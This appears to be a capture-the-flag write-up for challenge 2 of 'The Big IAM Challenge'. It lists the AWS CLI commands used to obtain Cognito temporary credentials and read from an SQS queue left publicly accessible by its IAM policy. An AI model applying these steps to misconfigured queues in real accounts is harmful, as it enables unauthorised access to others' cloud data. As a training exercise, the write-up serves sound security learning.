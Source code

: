 The Big IAM Challenge - Challenge 2
Problem Statement
The second challenge in The Big IAM Challenge involves an SQS (Simple Queue Service) queue with an IAM policy that allows public access to send and receive messages. The policy allows anyone to perform the `sqs:SendMessage` and `sqs:ReceiveMessage` actions on the `wiz-tbic-analytics-sqs-queue-ca7a1b2` queue.

Solution Commands

To solve this challenge, I used the AWS CLI to obtain temporary credentials from Amazon Cognito, and then used those credentials to send and receive messages from the SQS queue. Below are the steps and commands used:

1. Retrieve Identity ID from Amazon Cognito:
   The first command retrieves an identity ID from Amazon Cognito using the specified identity pool ID.

   
   aws cognito-identity get-id --identity-pool-id "us-east-1:c6f3eb2e-3cb5-404e-93bc-f0bdf7ad042e"
Retrieve Temporary AWS Credentials: The second command retrieves temporary AWS credentials for the specified identity ID. These credentials are used to authenticate subsequent AWS CLI commands.

aws cognito-identity get-credentials-for-identity --identity-id "us-east-1:9ea8f9af-f687-439b-951d-0e83653f6be7"
Verify Temporary Credentials: The third command verifies that the temporary credentials obtained from Amazon Cognito are valid by using sts get-caller-identity.


aws sts get-caller-identity --profile challenge2
Send a Message to the SQS Queue: The fourth command sends a message with the body "Hello, World" to the SQS queue.


aws sqs send-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --message-body "Hello, World" --profile challenge2 --region us-east-1
Receive a Message from the SQS Queue: The fifth command retrieves a message from the SQS queue.


aws sqs receive-message --queue-url https://sqs.us-east-1.amazonaws.com/092297851374/wiz-tbic-analytics-sqs-queue-ca7a1b2 --profile challenge2 --region us-east-1
Outcome
In response to the fifth command, I got a link to the HTML page.

Conclusion
This challenge demonstrates the process of obtaining temporary AWS credentials from Amazon Cognito and interacting with an SQS queue using the AWS CLI. The temporary credentials allow for sending and receiving messages from the queue as per the IAM policy.

